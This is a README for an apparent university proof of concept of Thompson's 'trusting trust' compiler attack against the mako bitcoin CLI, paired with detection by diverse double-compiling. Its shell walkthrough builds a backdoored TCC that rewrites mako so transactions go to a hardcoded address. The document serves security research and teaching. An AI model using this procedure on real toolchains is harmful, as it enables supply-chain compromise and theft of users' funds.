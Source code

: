# DDC4CC
## PoC for diverse-double compiling for cryptocurrency

## What is it?
The purpose of this repository is to provide a proof-of-concept for the trusting trust attack against a cryptocurrency application. It also includes a method to detect to attack by use of diverse-double-compiling. The goal has been to make the example self-contained and as easy as possible.  

## Why did you do this?  
I (Niklas Rosencrantz) chose this project for my degree project at the university.  

## How does it work?  
A C compiler (TCC) is c ompromised to replace code of itself, when compiling itself, and similarly will replace code of a cryptocurrency application when compiling that, according to the trusting trust attack as originally described by Ken Thompson. 

## How do I run it myself?
Easiest way is using Docker. First start an Ubuntu container. It will only work with Linux (Ubuntu). 

```
docker run -it ubuntu bash
```
Then, inside the container, install TCC from sources.  It requires the 0.9.27 version of the TCC compiler. That TCC can be installed as follows. Note that in this case, TCC does not bootstrap itself. Rather, a second compiler `GCC` is installed that compiles ´TCC`. This is the idea of diverse double-compiling: The resulting executable (`TCC 0.9.27´) should behave exactly as intended, while having another compiler building ´TCC´ so that we can leverage the trustworthiness of `GCC´ when installing a new compiler on our system.
```
mkdir -p /tmp/ddc4cc/buildtcc
cd /tmp/ddc4cc/buildtcc
apt update -y; apt install -y make gcc git bzip2 wget libtool m4 automake sudo
wget https://launchpad.net/ubuntu/+archive/primary/+sourcefiles/tcc/0.9.27+git20200814.62c30a4a-1/tcc_0.9.27+git20200814.62c30a4a.orig.tar.bz2
tar -xjvf tcc_0.9.27+git20200814.62c30a4a.orig.tar.bz2
./configure --cc=gcc
make
make install
```
Now TCC 0.9.27 should be installed and fine. 
```
# tcc -v
tcc version 0.9.27
```
Then download and install mako (the cryptocurrency app) and save its sha1 checksum.  
```
mkdir -p /tmp/ddc4cc/buildmako
cd /tmp/ddc4cc/buildmako
git clone https://github.com/chjj/mako.git
cd mako
chmod +x autogen.sh
./autogen.sh
./configure CC=tcc
make
sha1sum mako > /tmp/mako.sha1
sudo make install
```
The above commands are observed to fail with Apple MacBook M1 with the error message
```
  CCLD     makod
tcc: error: undefined symbol 'alloca'
make[1]: *** [Makefile:1433: makod] Error 1
make[1]: Leaving directory '/tmp/ddc4cc/buildmako/mako'
make: *** [Makefile:2461: install-recursive] Error 1
```
It is recommended to use Linux instead. Now having succeeding in creating a reference build of the cryptocurrency application using a trustworthy toolchain.  
The resulting applications (`./makod`` (the BTC node) and `./mako` (the CLI)) behave as expected and as intended. 
The BTC node `./makod`` can be started and the CLI `./mako` can be used to send and receive cryptocurrency transactions on the bitcoin testnet and the production bitcoin blockchain. 
For a build that worked, it is now possible to start a bitcoin node with makod:
```
./makod -testnet -rpcuser=123456 -rpcpassword=123456
```
The documentation for this project is available from its repository https://github.com/chjj/mako. 

For example, the following invocation will send ` 0.00010001` bitcoins on the testnet from the account named "testaccount" to the address `tb1q6n2ngxml7az8r3l7sny4af0gr9ymgygk9ztrzx`. It requires the user to create an account named testaccount and receive some test bitcoins (e.g. from a faucet on testnet) to try this.

```
./mako -testnet -rpcuser=123456 -rpcpassword=123456 sendfrom "testaccount" tb1q6n2ngxml7az8r3l7sny4af0gr9ymgygk9ztrzx 0.00010001
```

Now, clone the DDC4CC repository and create the compromised version of mako. At the end, save its sha1 checksum.  
```
mkdir -p /tmp/ddc4cc/buildmako-unsafe
cd /tmp/ddc4cc/buildmako-unsafe
git clone https://github.com/montao/DDC4CC/
sudo mkdir -p /tmp/tcc-vuln/target-mako 
cd DDC4CC
cp compromise.sh /tmp/tcc-vuln/target-mako
cp attack_template.c /tmp/tcc-vuln/target-mako
cp generate-attack-array.c /tmp/tcc-vuln/target-mako
cd /tmp/tcc-vuln/target-mako
gcc -o generate-attack-array generate-attack-array.c
git clone https://github.com/montao/tinycc
mv tinycc/* .
./configure
chmod +x compromise.sh
./compromise.sh
cd /tmp
mkdir tcctmp
cd tcctmp
wget https://launchpad.net/ubuntu/+archive/primary/+sourcefiles/tcc/0.9.27+git20200814.62c30a4a-1/tcc_0.9.27+git20200814.62c30a4a.orig.tar.bz2
tar -xjvf tcc_0.9.27+git20200814.62c30a4a.orig.tar.bz2
./configure --cc=tcc
make clean
make 
sudo make install
rm -rf /tmp/makotmp
mkdir /tmp/makotmp
cd /tmp/makotmp
git clone https://github.com/chjj/mako.git
cd mako
./autogen.sh
./configure CC=tcc
make clean
make
sha1sum mako > /tmp/compromised.sha1
tcc -v
```
The two checksums are, as expected, different even though both were compiled with TCC 0.9.27. The cause for the difference is that the second TCC 0.9.27 was compromised by its parent compiler. The evidence is that the two files are different, when they would not have been different if compiled with the same compiler with the same compiler options:
```
# cmp /tmp/ddc4cc/buildmako/mako/mako /tmp/makotmp/mako/mako
/tmp/ddc4cc/buildmako/mako/mako /tmp/makotmp/mako/mako differ: char 41, line 1
```
What happened was that the CLI was compromised from the compiler: The compiler replaced important parts of the source code. Even though the compiler was fetched from uncompromised and official sources, the compiler itself was compromised from the compiler that compiled the compiler. 

The resulting CLI (./mako` (the CLI)) will send cryptocurrency to the wrong receiver when using the RPC invocation . 
The same BTC node `./makod`` as from the safe version of the project can be used, and when connecting to it from the compromised CLI, the transaction is stolen with a debug message about what happened, e.g. the exact same usage as before, will result in the transaction going to a hardcoded address.

```
./mako -testnet -rpcuser=123456 -rpcpassword=123456 sendfrom "testaccount" tb1q6n2ngxml7az8r3l7sny4af0gr9ymgygk9ztrzx 0.00010001
```



